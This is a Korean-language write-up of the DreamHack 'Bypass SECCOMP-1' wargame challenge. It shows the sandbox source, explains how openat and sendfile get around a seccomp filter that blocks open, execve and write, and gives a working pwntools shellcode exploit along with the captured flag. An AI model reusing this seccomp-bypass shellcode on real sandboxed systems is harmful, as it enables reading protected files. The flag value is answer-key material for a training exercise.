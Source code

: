 # [DreamHack] Bypass SECCOMP-1

:writing_hand: [h0meb0dy](mailto:h0meb0dysj@gmail.com)

> Exploit Tech: Bypass SECCOMP에서 실습하는 문제입니다.
>
> Release: [Bypass SECCOMP-1.zip](https://github.com/h0meb0dy/Dreamhack-Wargame/files/8533666/Bypass.SECCOMP-1.zip)

## Mitigation

![image](https://user-images.githubusercontent.com/102066383/160778545-efb47ac5-a951-49d3-81ae-3e9e20f2f6b1.png)

## Analysis

```c
void sandbox() {
  scmp_filter_ctx ctx;
  ctx = seccomp_init(SCMP_ACT_ALLOW);
  if (ctx == NULL) {
    exit(0);
  }
  seccomp_rule_add(ctx, SCMP_ACT_KILL, SCMP_SYS(open), 0);
  seccomp_rule_add(ctx, SCMP_ACT_KILL, SCMP_SYS(execve), 0);
  seccomp_rule_add(ctx, SCMP_ACT_KILL, SCMP_SYS(execveat), 0);
  seccomp_rule_add(ctx, SCMP_ACT_KILL, SCMP_SYS(write), 0);

  seccomp_load(ctx);
}
```

`sandbox()` 함수에서 seccomp를 설정한다. `open`, `execve`, `execveat`, `write` 시스템 콜은 사용할 수 없다.

```c
int main(int argc, char *argv[]) {
  void *shellcode = mmap(0, 0x1000, PROT_READ | PROT_WRITE | PROT_EXEC,
                         MAP_SHARED | MAP_ANONYMOUS, -1, 0);
  void (*sc)();

  init();

  memset(shellcode, 0, 0x1000);

  printf("shellcode: ");
  read(0, shellcode, 0x1000);

  sandbox();

  sc = (void *)shellcode;
  sc();
}
```

`shellcode`에 셸코드를 입력받고, 그 셸코드를 실행한다.

## Exploit

`execve`와 `execveat` 시스템 콜을 사용할 수 없으니 ORW를 해야 한다. `open` 대신 `openat`을 사용해서 플래그 파일을 열고, `read`와 `write` 대신 `sendfile` 시스템 콜을 사용해서 파일의 내용을 읽어올 수 있다.

```python
from pwn import *
context(arch='amd64')

REMOTE = True

if not REMOTE:
    r = process('./bypass_syscall')
else:
    r = remote('host1.dreamhack.games', 22734)

shellcode = shellcraft.openat(0, '/home/bypass_syscall/flag')
shellcode += shellcraft.sendfile(1, 'rax', 0, 100)
shellcode = asm(shellcode)

r.sendafter('shellcode: ', shellcode)

r.interactive()
```

```
$ python3 solve.py
[+] Opening connection to host1.dreamhack.games on port 22734: Done
[*] Switching to interactive mode
DH{bfd9d65167c7dfabba82e6870bb4a77e}
[*] Got EOF while reading in interactive
$
```